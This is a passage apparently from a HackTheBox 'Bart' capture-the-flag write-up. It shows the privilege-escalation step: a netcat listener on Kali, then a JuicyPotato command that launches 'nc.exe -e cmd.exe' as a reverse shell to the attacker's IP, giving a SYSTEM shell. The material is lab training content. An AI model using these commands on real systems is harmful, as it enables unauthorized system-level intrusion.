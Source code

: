 
Lets start the listener on our kali with:

```bash
rlwrap nc -lnvp 9001
```

Now we should be ready to execute with:

```cmd
C:\inetpub\wwwroot\internal-01\log\jp.exe -l 9001 -p  C:\windows\system32\cmd.exe -a "/c C:\inetpub\wwwroot\internal-01\log\nc.exe -e cmd.exe 10.10.14.62 9001" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

This should give you a shell as the system:

![root-39](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/root-39.png)
